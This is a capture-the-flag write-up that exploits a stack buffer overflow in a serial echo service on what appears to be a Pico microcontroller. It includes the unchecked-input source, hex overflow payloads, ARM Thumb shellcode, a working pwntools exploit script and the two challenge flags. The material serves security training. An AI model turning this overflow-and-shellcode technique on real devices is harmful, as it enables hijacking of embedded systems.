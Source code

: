 # Challenge files

Opening a serial connection reveals the running program.

As the source fragment suggest, sending anything is printed back.

```
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0a
```

![](screenshots/1.png)

The source fragment shows the vulnerable part and the crown jewels. The buffer size is 64 bytes. 

```c
void decrypt() {
	...
    
    printf("Congratulation for the flag: %s !\n", buff);
    printf("There is a second one here, keep looking! Register r1 should be 69!\n");
    stdio_flush();

    if (r1 != 69) { reboot(); }
    ...
    if (r1 != 69) { reboot(); }
    ...
    if (r1 != 69) { reboot(); }
    ...
    if (r1 != 69) { reboot(); }
    ...
    ...

    printf("Congratulation for the flag: %s !\n", buff);
    printf("Rebooting in 5s");
    stdio_flush();
    sleep_ms(5000);
    reboot();
}

void echo() {
    char buff[64];
    printf("[Debug] buff at 0x%08x.\n", buff);
    printf("Input: ");
    gets_crlf(buff); //same as gets, but terminates on any of \n or \r
    printf("Output: %s\n", buff);
    stdio_flush();
}
```

There are also some debug messages printing the important addresses.

# Disassembly

Exporting the binary and loading it into ghidra is detailed in the [challenge1](../challenge1/WRITEUP.md#import-binary) solution. Arm v6 or Cortex, LE, base 0x10000000 was used.

You can follow the print strings and see the buffer distance at the start (0x44, 68).

![](screenshots/3.png)


# Buffer overflow

The buffer is 64 bytes, but there is no size constrain on the input.

We have the decrypt function address printed as debug info. We can jump into that directly.

![](screenshots/4.png)

```
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
FF FF FF FF 15 04 00 10 
0a
```

![](screenshots/5.png)

The overflow works, but we need more control to get a second flat. We have to set r1 register to 69.

# Shellcode

We also have the buffer address printed as help, we can use that to store a shellcode and jumpt to it.
The GNU assembler `as` from the pico sdk can be used to construct a shellcode. 

[exploit_shellcode.s](workdir/exploit_shellcode.s) .

```as
.thumb
.align 4

.text
.global _start
_start:
    mov r1, #69
	pop {pc}
```

```bash
/path/to/pico/sdk/gcc-arm-none-eabi/bin/arm-none-eabi-as exploit_shellcode.s -o exploit_shellcode.o 
/path/to/pico/sdk/gcc-arm-none-eabi/bin/arm-none-eabi-objdump -D exploit_shellcode.o
```

Alternatively https://shell-storm.org/online/Online-Assembler-and-Disassembler/ with ARM Thumb and Little Endian setting, or any similar service can be used. 

Keep in mind, when setting the pc register, we need to bitwise OR the address with 0x1 to mark it as Thumb instruction, hence 0x20041ea9 is used instead 0x20041ea8. See ARM internals for more info.

Shellcode is minimal, setting the register to the required value and then popping the decrypt into pc.

![](screenshots/6.png)

The buffer structure.

![](screenshots/7.png)

```
45 21 00 bd 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
FF FF FF FF a9 1e 04 20 15 04 00 10 
0a
```

Sending the correctly set r1 gives us both flags.

![](screenshots/8.png)

# Pwntools script

Pwntools can be used to communicate with the device over serial and send the buffer in a more structured way. 

[exploit.py](workdir/exploit.py)

```python
#!/bin/env python3

'''
Initialization complete!
[Debug] main at 0x10000385.
[Debug] echo at 0x10000351.
[Debug] decrypt at 0x10000415.
Echo service running.
[Debug] buff at 0x20041ea8.
Input: XXX
Output: XXX
'''

from pwn import *
from time import sleep
import sys

io = serialtube("/dev/ttyACM0", baudrate=115200)

def flatl(x):
    return flat(x, endianness="little")

BUFF_LEN = 64
BUFF_ADDR = 0x20041ea8
DECRYPT = 0x10000415

SHELLCODE = b"".join([
    b"\x45\x21", # movs r1, #69
    b"\x00\xbd", # pop {pc}
])

PAYLOAD = b"".join([
    SHELLCODE,
    b"A"*(BUFF_LEN-len(SHELLCODE)),
    b"XXXX",
    flatl(BUFF_ADDR | 0x1), # thumb instruction need | 0x1 for address
    flatl(DECRYPT),
    b"\n"
])

io.recv(timeout=0.1)
#io.send_raw(b"A"*63+b"\n")
io.send_raw(PAYLOAD)
while True:
    try:
        res = io.recvline()
        print(res.decode("utf-8"), end="")
    except:
        break
```

![](screenshots/10.png)

# Flags
DB{23ba345e029c137179fc3551503c}

DB{ea4d25a78cddc9fda52f1e465eb8}
